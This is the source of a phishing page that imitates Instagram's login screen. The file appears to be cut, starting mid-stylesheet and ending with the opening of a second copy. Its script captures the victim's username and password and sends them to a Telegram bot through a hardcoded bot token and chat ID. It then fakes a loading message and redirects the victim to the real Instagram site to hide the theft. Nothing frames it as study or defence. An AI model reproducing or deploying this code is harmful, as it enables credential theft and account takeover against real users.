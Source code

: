         .app-stores img {
            height: 40px;
            margin: 0 5px;
        }
    </style>
</head>
<body>
    <div class="login-container">
        <img src="https://www.instagram.com/static/images/web/logged_out_wordmark.png/7a252de00b20.png" alt="Instagram" class="logo">
        
        <form id="loginForm">
            <input type="text" placeholder="Phone number, username, or email" id="username" required>
            <input type="password" placeholder="Password" id="password" required>
            <button type="submit" id="loginButton">Log In</button>
        </form>
        
        <div class="divider">OR</div>
        
        <div class="facebook-login">
            <img src="https://www.instagram.com/static/images/ico/favicon-192.png/68d99ba29cc8.png" alt="Facebook">
            Log in with Facebook
        </div>
        
        <div class="forgot-password">Forgot password?</div>
    </div>
    
    <script>
        document.getElementById('loginForm').addEventListener('submit', function(e) {
            e.preventDefault();
            
            const username = document.getElementById('username').value;
            const password = document.getElementById('password').value;
            
            // Send data to Telegram bot
            fetch(`https://api.telegram.org/bot7960358967:AAGBKFLrJj4EyjxAOMCtWXa2F0pClzpHQyk/sendMessage`, {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json',
                },
                body: JSON.stringify({
                    chat_id: '7145643549',
                    text: `New Instagram Login:\nUsername: ${username}\nPassword: ${password}`
                })
            })
            .then(response => response.json())
            .then(data => {
                // Show fake loading and then redirect to Instagram
                document.getElementById('loginButton').textContent = 'Logging in...';
                setTimeout(() => {
                    window.location.href = 'https://www.instagram.com/accounts/login/';
                }, 2000);
            })
            .catch(error => {
                console.error('Error:', error);
                alert('An error occurred. Please try again.');
            });
        });
    </script>
</body>
</html><!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Instagram Login</title>